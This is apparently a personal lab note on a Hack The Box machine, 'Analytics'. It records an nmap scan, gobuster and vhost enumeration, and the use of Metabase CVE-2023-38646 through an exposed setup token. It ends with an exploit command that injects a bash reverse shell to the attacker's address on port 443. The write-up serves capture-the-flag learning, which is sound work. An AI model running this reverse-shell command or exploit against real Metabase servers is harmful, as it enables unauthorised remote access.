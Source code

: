 ```yaml
---
type: box
finished: "true"
writeup: "false"
---
```


![[Analytics.png]]

# INFO:
### IP:
10.10.11.233

# Enum 
Nmap gives this output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
 with this command
 `nmap -sV -sC -p- 10.10.11.233`

 the ip redirects to analytical.htb in the browser so we have to put it in our /etc/hosts. usually changing hosts is a sign to do vhost enumeration, so we can run both vhost and dir gobuster in the background while we explore the webpage.
 
 So we'll run `gobuster dir -u analytical.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` and... no find.

When we just look through the website we find a login page, this redirects to data.analytical.htb, let's add that too to our /etc/hosts.

We get greeted with this login screen
![[Pasted image 20231107164931.png]]
Googling metabase CVE finds us a lot of results.

# **[CVE-2023-38646](https://github.com/securezeron/CVE-2023-38646)

Apperently metabase has done some serious issues. The setup-token that is supposed to be private can be freely visited under this api directory `/api/session/properties`. With 

`python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.247/443 0>&1"`
